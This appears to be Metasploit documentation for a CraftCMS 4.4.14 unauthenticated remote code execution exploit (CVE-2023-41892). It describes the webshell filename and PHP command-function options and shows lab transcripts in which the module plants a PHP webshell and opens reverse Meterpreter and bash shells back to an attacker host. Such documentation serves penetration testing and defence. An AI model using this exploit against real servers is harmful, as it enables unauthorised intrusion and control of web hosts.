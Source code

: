 ```shell

View the full module info with the info -d command.
```

## Options
### WEBSHELL
You can use this option to set the filename of the webshell with extension `.php`, otherwise the name will be randomly generated.

### COMMAND
This option provides the user to choose the PHP underlying shell command function to be used for execution.
The choices are `system()`, `passthru()`, `shell_exec()` and `exec()` and it defaults to `passthru()`.
This option is only available when the target selected is either Unix Command or Linux Dropper.
For the native PHP target, by default the `eval()` function will be used for native PHP code execution.

## Scenarios
### CraftCMS 4.4.14 on MacOS PHP - php/meterpreter/reverse_tcp
```shell
msf6 exploit(linux/http/craftcms_unauth_rce_cve_2023_41892) > exploit

[*] Started reverse TCP handler on 192.168.201.8:4444
[*] Running automatic check ("set AutoCheck false" to disable)
[+] The target appears to be vulnerable.
[*] Executing PHP for php/meterpreter/reverse_tcp
[*] Sending stage (39927 bytes) to 192.168.201.25
[+] Deleted /var/www/html/web/CDfbvAnrZMH.php
[+] Deleted /tmp/php5M63PK
[*] Meterpreter session 1 opened (192.168.201.8:4444 -> 192.168.201.25:51044) at 2023-12-17 12:31:55 +0000

meterpreter > sysinfo
Computer    : craftcms-vuln-web
OS          : Linux craftcms-vuln-web 6.4.16-linuxkit #1 SMP PREEMPT_DYNAMIC Thu Nov 16 10:55:59 UTC 2023 x86_64
Meterpreter : php/linux
meterpreter > getuid
Server username: www-data
meterpreter >
```
### CraftCMS 4.4.14 on MacOS Unix Command - cmd/unix/reverse_bash
```shell
msf6 exploit(linux/http/craftcms_unauth_rce_cve_2023_41892) > set target 1
target => 1
msf6 exploit(linux/http/craftcms_unauth_rce_cve_2023_41892) > exploit

[*] Started reverse TCP handler on 192.168.201.8:4444
[*] Running automatic check ("set AutoCheck false" to disable)
[*] {"upload_tmp_dir"=>"/tmp", "document_root"=>"/var/www/html/web"}
[+] The target appears to be vulnerable.
[*] Executing Unix Command for cmd/unix/reverse_bash
[+] Deleted /var/www/html/web/XGCuZFdoia.php
[+] Deleted /tmp/phpakTlmu
[*] Command shell session 2 opened (192.168.201.8:4444 -> 192.168.201.25:51101) at 2023-12-17 12:34:34 +0000

```